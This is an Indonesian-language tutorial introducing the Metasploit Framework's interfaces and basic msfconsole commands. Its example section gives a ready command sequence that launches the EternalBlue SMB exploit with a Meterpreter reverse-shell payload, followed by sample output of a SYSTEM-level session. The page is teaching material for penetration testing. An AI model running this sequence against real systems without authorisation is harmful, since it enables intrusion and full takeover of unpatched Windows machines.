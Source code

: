 # Antarmuka Metasploit Framework

## A. Pengantar

`Metasploit Framework` memiliki beberapa antarmuka yang bisa digunakan oleh user, mulai dari CLI (Command Line Interface) hingga GUI (Graphical User Interface). Namun, yang paling sering digunakan dan paling powerful adalah CLI melalui `msfconsole`.

## B. Jenis Antarmuka Metasploit

| Antarmuka | Deskripsi |
|:--:|:--:|
| `msfconsole` | Antarmuka utama berbasis CLI, digunakan untuk menjalankan `modul`, `payload`, dan `eksploitasi`. |
| `msfvenom` | CLI untuk membuat payload secara manual. |
| [Armitage](https://www.offsec.com/metasploit-unleashed/armitage/) (GUI) | Antarmuka grafis berbasis Java (sudah jarang digunakan). |
| [Metasploit Pro](https://docs.rapid7.com/metasploit/) (GUI berbayar) | Antarmuka komersial dengan fitur profesional seperti laporan dan automasi. |

## C. `msfconsole` – Antarmuka Utama

### 1. Menjalankan msfconsole:

```
msfconsole
```

Saat dijalankan, akan muncul banner:

```
       =[ metasploit v6.4.56-dev                          ]
+ -- --=[ 2505 exploits - 1291 auxiliary - 431 post       ]
+ -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/
```

### 2. Struktur Dasar Perintah di msfconsole

| Perintah | Fungsi |
|:--:|:--:|
| `search <nama>` | Mencari `exploit`, `payload`, `dll` |
| `use <modul>` | Memilih modul yang akan digunakan |
| `info` | Menampilkan detail tentang modul yang sedang digunakan |
| `show options` | Melihat konfigurasi parameter modul |
| `set <parameter> <nilai>` | Mengatur nilai parameter modul |
| `exploit` atau `run` | Menjalankan exploit atau modul |

### 3. Contoh Penggunaan msfconsole:

```
search windows/smb
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 192.168.1.10
set LHOST 192.168.1.5
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

## D. Fitur Tambahan di msfconsole

| Fitur | Penjelasan |
|:--:|:--:|
| Tab Completion | Tekan `Tab` untuk melengkapi modul atau perintah otomatis |
| Command History | Gunakan panah atas `(↑)` untuk melihat perintah sebelumnya |
| Background Sessions | Gunakan background untuk menyimpan sesi eksploitasi ke background |
| Session Interaction | Gunakan `sessions -i <id>` untuk membuka kembali sesi eksploitasi |

## E. Contoh Output dari msfconsole:

```
msf6 > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         meterpreter x86/win32  NT AUTHORITY\SYSTEM       192.168.1.10 -> 192.168.1.5
```

## F. Kesimpulan

`msfconsole` adalah pusat kendali utama dalam Metasploit. Dengan memahami perintah-perintah dasar dan navigasi antarmukanya, kamu bisa mengelola modul eksploitasi, payload, dan sesi secara efisien.

> Tips: Latih penggunaan msfconsole di lab lokal atau VM agar terbiasa sebelum digunakan dalam skenario nyata.
